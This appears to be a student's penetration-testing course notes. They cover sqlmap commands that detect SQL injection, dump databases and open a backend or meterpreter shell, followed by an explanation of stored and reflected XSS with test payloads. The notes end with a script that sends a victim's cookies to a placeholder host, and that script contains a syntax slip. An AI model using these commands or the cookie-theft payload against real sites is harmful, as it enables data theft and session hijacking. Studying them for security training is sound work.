 **sqlmap**

```bash
sqlmap --wizard
```

* can be used to help if you're struggling with the CLI, but I highly advise against getting comfortable with this. It doesn't provide the same level of customizability and it's widly inconveneient. 

```bash
sqlmap -u <url w/ parameter> 
```

* should validate the sqli and if vulnerable give us some system details as well

```bash
sqlmap -u <url w/ parameter> --tables
```

* this dumps the table

```bash
sqlmap -u <url w/ parameter> --current-db <database name> --dump
```

* dumps all of the contents of the tables in that database

```bash
sqlmap -u <url w/ parameter> [--os-shell] or [--os-pwn] 
```

* os-shell and os-pwn allow the user to try to open a backend shell or a meterpreter shell respectively

#### Cross-Site Scripting \(XSS\)

While this course doesn't present any tools for XSS, there are a few things to keep in mind:

* Persistent XSS: where the payloadd is embeded and stored on the page in some way shape or form. Think about someone posting a malicious payload into a tweet and then anytime anyone opens the tweet they are subject to malicious payload.
* Reflected XSS: the payload is carried in the input to the site. Think about encoding a malicious javascript snippet into a URL and then getting someone to click on the malicious link. 

Looking for XSS is a similar methodology to looking for SQLi, here are a few things that I look for:

1. identify input areas on a site, any spots where input could be potentially not sanitized
2. test input with html tags: &lt;h1&gt; Test &lt;/h1&gt;
3. test with javascript: 

```javascript
<script> alert('XSS'); </script> 
```

4. If this works then you can use the following js to steal cookies:

```javascript
<script> 
var i = new Image();
i.src = "http://your.own.IP.address/get.php?cookies=" += document.cookie;
</script>
```
